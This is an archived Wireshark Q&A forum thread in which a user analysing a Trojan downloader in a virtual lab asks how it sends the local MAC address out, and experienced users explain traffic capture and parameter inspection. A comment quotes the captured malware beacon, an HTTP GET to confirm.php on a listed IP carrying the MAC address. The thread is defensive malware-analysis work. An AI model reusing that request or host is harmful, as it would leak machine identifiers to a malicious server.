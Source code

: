 +++
type = "question"
title = "Malware sending the local MAC address to remote computer"
description = '''hello I examined a Trojan downloader and I found that it sends the Local MAC address to a remote computer. can you please help me to understand the process using wireshark. BTW I use IDA Pro.  '''
date = "2013-02-03T12:26:00Z"
lastmod = "2013-02-06T12:52:00Z"
weight = 18260
keywords = [ "mac", "trojan", "idapro", "downloader." ]
aliases = [ "/questions/18260" ]
osqa_answers = 2
osqa_accepted = false
+++

<div class="headNormal">

# [Malware sending the local MAC address to remote computer](/questions/18260/malware-sending-the-local-mac-address-to-remote-computer)

</div>

<div id="main-body">

<div id="askform">

<table id="question-table" style="width:100%;"><colgroup><col style="width: 50%" /><col style="width: 50%" /></colgroup><tbody><tr class="odd"><td style="width: 30px; vertical-align: top"><div class="vote-buttons"><span id="post-18260-upvote" class="ajax-command post-vote up" rel="nofollow" title="I like this post (click again to cancel)"> </span><div id="post-18260-score" class="post-score" title="current number of votes">0</div><span id="post-18260-downvote" class="ajax-command post-vote down" rel="nofollow" title="I dont like this post (click again to cancel)"> </span> <span id="favorite-mark" class="ajax-command favorite-mark" rel="nofollow" title="mark/unmark this question as favorite (click again to cancel)"> </span><div id="favorite-count" class="favorite-count"></div></div></td><td><div id="item-right"><div class="question-body"><p>hello I examined a Trojan downloader and I found that it sends the Local MAC address to a remote computer. can you please help me to understand the process using wireshark. BTW I use IDA Pro.<br />
</p></div><div id="question-tags" class="tags-container tags"><span class="post-tag tag-link-mac" rel="tag" title="see questions tagged &#39;mac&#39;">mac</span> <span class="post-tag tag-link-trojan" rel="tag" title="see questions tagged &#39;trojan&#39;">trojan</span> <span class="post-tag tag-link-idapro" rel="tag" title="see questions tagged &#39;idapro&#39;">idapro</span> <span class="post-tag tag-link-downloader." rel="tag" title="see questions tagged &#39;downloader.&#39;">downloader.</span></div><div id="question-controls" class="post-controls"></div><div class="post-update-info-container"><div class="post-update-info post-update-info-user"><p>asked <strong>03 Feb '13, 12:26</strong></p><img src="https://secure.gravatar.com/avatar/b5a716fcedbdf11b7473a48034ba0c0c?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="Mimou%20Fares&#39;s gravatar image" /><p><span>Mimou Fares</span><br />
<span class="score" title="11 reputation points">11</span><span title="1 badges"><span class="badge1">●</span><span class="badgecount">1</span></span><span title="1 badges"><span class="silver">●</span><span class="badgecount">1</span></span><span title="3 badges"><span class="bronze">●</span><span class="badgecount">3</span></span><br />
<span class="accept_rate" title="Rate of the user&#39;s accepted answers">accept rate:</span> <span title="Mimou Fares has no accepted answers">0%</span> </br></p></div></div><div id="comments-container-18260" class="comments-container"></div><div id="comment-tools-18260" class="comment-tools"></div><div class="clear"></div><div id="comment-18260-form-container" class="comment-form-container"></div><div class="clear"></div></div></td></tr></tbody></table>

------------------------------------------------------------------------

<div class="tabBar">

<span id="sort-top"></span>

<div class="headQuestions">

2 Answers:

</div>

</div>

<span id="18264"></span>

<div id="answer-container-18264" class="answer">

<table style="width:100%;"><colgroup><col style="width: 50%" /><col style="width: 50%" /></colgroup><tbody><tr class="odd"><td style="width: 30px; vertical-align: top"><div class="vote-buttons"><span id="post-18264-upvote" class="ajax-command post-vote up" rel="nofollow" title="I like this post (click again to cancel)"> </span><div id="post-18264-score" class="post-score" title="current number of votes">1</div><span id="post-18264-downvote" class="ajax-command post-vote down" rel="nofollow" title="I dont like this post (click again to cancel)"> </span></div></td><td><div class="item-right"><div class="answer-body"><p>Have you captured the traffic of the computer that has the trojan? That would be the first step - and please, don't do it ON the infected computer. Forensic captures are best taken by using a network TAP and another computer running a capture software like Wireshark/dumpcap. If you don't have a TAP you can try capturing via SPAN port.</p><p>When you have a trace you could post it at <a href="http://www.cloudshark.org">www.cloudshark.org</a> and post the URL. That way we can take a look at what you've got.</p></div><div class="answer-controls post-controls"></div><div class="post-update-info-container"><div class="post-update-info post-update-info-user"><p>answered <strong>03 Feb '13, 14:49</strong></p><img src="https://secure.gravatar.com/avatar/c578ba2967741f25aebd6afef702f432?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="Jasper&#39;s gravatar image" /><p><span>Jasper ♦♦</span><br />
<span class="score" title="23806 reputation points"><span>23.8k</span></span><span title="5 badges"><span class="badge1">●</span><span class="badgecount">5</span></span><span title="51 badges"><span class="silver">●</span><span class="badgecount">51</span></span><span title="284 badges"><span class="bronze">●</span><span class="badgecount">284</span></span><br />
<span class="accept_rate" title="Rate of the user&#39;s accepted answers">accept rate:</span> <span title="Jasper has 263 accepted answers">18%</span></p></div></div><div id="comments-container-18264" class="comments-container"><span id="18265"></span><div id="comment-18265" class="comment"><div id="post-18265-score" class="comment-score"></div><div class="comment-text"><p>thank you for your answer. to capture the traffic I used Wireshark within the infected machine (virtual) and INetSim in the host. I had the following HTTP quire<br />
</p><p>GET /confirm.php?aid=0&amp;said=0&amp;mac=08:xx:27:xx:DC:83&amp;mn=1489 HTTP/1.1 User-Agent: wget 3.0 Host: 64.247.39.247 Cache-Control: no-cache</p></div><div id="comment-18265-info" class="comment-info"><span class="comment-age">(03 Feb '13, 15:15)</span> <span class="comment-user userinfo">Mimou Fares</span></div></div><span id="18266"></span><div id="comment-18266" class="comment"><div id="post-18266-score" class="comment-score"></div><div class="comment-text"><p>it seems also that Trojan sends the user name! where can I find such relevant information? thank you</p></div><div id="comment-18266-info" class="comment-info"><span class="comment-age">(03 Feb '13, 15:21)</span> <span class="comment-user userinfo">Mimou Fares</span></div></div><span id="18267"></span><div id="comment-18267" class="comment"><div id="post-18267-score" class="comment-score"></div><div class="comment-text"><p>well, basically you'll have to look through the trace you have and try to find any data transmitted that shouldn't be. POST or GET requests usually carry form data and parameters, so you should look at these. GET parameters are found in the URL, while POST parameters can be found at the bottom (line-base text data).</p></div><div id="comment-18267-info" class="comment-info"><span class="comment-age">(03 Feb '13, 17:04)</span> <span class="comment-user userinfo">Jasper ♦♦</span></div></div></div><div id="comment-tools-18264" class="comment-tools"></div><div class="clear"></div><div id="comment-18264-form-container" class="comment-form-container"></div><div class="clear"></div></div></td></tr></tbody></table>

</div>

<span id="18375"></span>

<div id="answer-container-18375" class="answer">

<table style="width:100%;"><colgroup><col style="width: 50%" /><col style="width: 50%" /></colgroup><tbody><tr class="odd"><td style="width: 30px; vertical-align: top"><div class="vote-buttons"><span id="post-18375-upvote" class="ajax-command post-vote up" rel="nofollow" title="I like this post (click again to cancel)"> </span><div id="post-18375-score" class="post-score" title="current number of votes">1</div><span id="post-18375-downvote" class="ajax-command post-vote down" rel="nofollow" title="I dont like this post (click again to cancel)"> </span></div></td><td><div class="item-right"><div class="answer-body"><blockquote><p>GET /confirm.php?aid=0&amp;said=0&amp;mac=08:xx:27:xx:DC:83&amp;mn=1489 HTTP/1.1 User-Agent: wget 3.0 Host: 64.247.39.247 Cache-Control: no-cache</p></blockquote><p>yes, looks like a Trojan, at least SonicWall and McAfee say so (same IP address used: 64.247.39.247)</p><blockquote><p><code>http://software.sonicwall.com/applications/gav/index.asp?ev=v&amp;v_id=26287</code><br />
<code>http://www.mcafee.com/threat-intelligence/malware/default.aspx?id=148862  (see Characteristics)</code><br />
</p></blockquote><p>Regards<br />
Kurt</p></div><div class="answer-controls post-controls"></div><div class="post-update-info-container"><div class="post-update-info post-update-info-user"><p>answered <strong>06 Feb '13, 12:52</strong></p><img src="https://secure.gravatar.com/avatar/23b7bf5b13bc2c98b2e8aa9869ca5d75?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="Kurt%20Knochner&#39;s gravatar image" /><p><span>Kurt Knochner ♦</span><br />
<span class="score" title="24767 reputation points"><span>24.8k</span></span><span title="10 badges"><span class="badge1">●</span><span class="badgecount">10</span></span><span title="39 badges"><span class="silver">●</span><span class="badgecount">39</span></span><span title="237 badges"><span class="bronze">●</span><span class="badgecount">237</span></span><br />
<span class="accept_rate" title="Rate of the user&#39;s accepted answers">accept rate:</span> <span title="Kurt Knochner has 344 accepted answers">15%</span> </br></br></p></div><div class="post-update-info post-update-info-edited"><p><span> edited <strong>06 Feb '13, 12:55</strong> </span></p></div></div><div id="comments-container-18375" class="comments-container"></div><div id="comment-tools-18375" class="comment-tools"></div><div class="clear"></div><div id="comment-18375-form-container" class="comment-form-container"></div><div class="clear"></div></div></td></tr></tbody></table>

</div>

<div class="paginator-container-left">

</div>

</div>

</div>

